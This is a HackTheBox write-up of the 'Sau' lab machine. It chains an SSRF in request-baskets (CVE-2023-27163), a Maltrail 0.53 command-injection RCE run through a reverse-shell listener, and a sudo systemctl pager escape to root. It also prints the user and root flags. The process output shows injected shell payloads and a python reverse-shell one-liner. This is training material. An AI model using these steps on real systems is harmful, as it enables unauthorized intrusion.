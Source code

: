 ```yaml
---
title: "Sau"
description: "A retiring linux easy machine, trying to do one a day!"
pubDate: 2024-01-02
author: "sealldev"
section: "HackTheBox"
image: "images/htb/box/sau/icon.png"
tags: ["easy", "hackthebox-machine"]
---
```


**Machine created by:** [sau123](https://app.hackthebox.com/users/201596)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.224 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-02 17:22 AEDT
Nmap scan report for 10.10.11.224
Host is up (0.011s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown
```

Lets edit our `/etc/hosts` and add a new entry.

```
10.10.11.224 sau.htb
```

Trying to load [sau.htb:80](http://sau.htb:80) failed, so I take a look at port 55555 and load [sau.htb:55555](http://sau.htb:55555) and see a `request-baskets` instance.

![request-baskets Instance](images/htb/box/sau/request-baskets.png)

## Exploitation

I look for any CVEs related to `request-baskets` and find a [PoC for CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163) which is an SSRF vulnerability. We can maybe access that port 80 service we can't seem to reach.

```
$ ./CVE-2023-27163.sh http://sau.htb:55555/ http://localhost:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "bameet" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/bameet now makes the server request to http://localhost:80/.
> Authorization: NM2Y9TQKkreZV-x6IjfYLsjs55W-g6JJ3YlDeB6b1kSc
```

Visiting the request bin shows us a broken instance of Mailtrail (v0.53).

![Mailtrail Instance](images/htb/box/sau/mailtrail.png)

## Initial Access & User Flag

Looking online there is a vulnerability for Mailtrail, and find a [PoC](https://packetstormsecurity.com/files/174129/Maltrail-0.53-Remote-Code-Execution.html) which is an RCE.

I set up a reverse shell listener...

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

and execute the PoC...

```
$ python3 MailTrailv053.py 10.10.***.*** 4444 http://sau.htb:55555/bameet
Running exploit on http://sau.htb:55555/bameet/login
```

And I see a shell!

```
[18:09:07] 10.10.11.224:54314: upgrading from /usr/bin/dash to /usr/bin/bash
           10.10.11.224:54314: registered new host w/ db 
           listener: 10.10.16.9:4444: linux session from 10.10.11.224:54314
           established
```

After changing to the shell I notice i'm the user `puma`, I then navigate to the user directory of `puma`:
```
(remote) puma@sau:/opt/maltrail$ cd /home/puma
(remote) puma@sau:/home/puma$ cat user.txt
70e0259608b4b058ee6e83c02f83554b
```

There's the user flag!

Flag: `70e0259608b4b058ee6e83c02f83554b`

## Root Flag

Checking `sudo -l` gives the following:

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Looking at GTFOBins entry for [systemctl](https://gtfobins.github.io/gtfobins/systemctl/#sudo) under the Sudo permission, there are some exploits.

The most promising one is option (c) due to our limited sudoers line.

I attempt the exploit:

```
(remote) puma@sau:/home/puma$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-01-01 10:14:15 UTC; 21h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 75 (limit: 4662)
     Memory: 384.2M
     CGroup: /system.slice/trail.service
             ├─  893 /usr/bin/python3 server.py
             ├─ 2476 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2478 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2486 sh
             ├─ 2487 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2488 /bin/sh
             ├─ 2510 sudo /usr/bin/systemctl status trail.service
             ├─ 2512 /usr/bin/systemctl status trail.service
             ├─ 2513 pager
             ├─ 2515 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2516 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2519 sh
             ├─ 2520 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2521 /bin/sh
!sh
# whoami
root
# cd /root/root.txt
9d5259dd1993658152d9863c78564c1e
```

And there's the root flag:

Flag: `9d5259dd1993658152d9863c78564c1e`

![Success](images/htb/box/sau/submitted.png)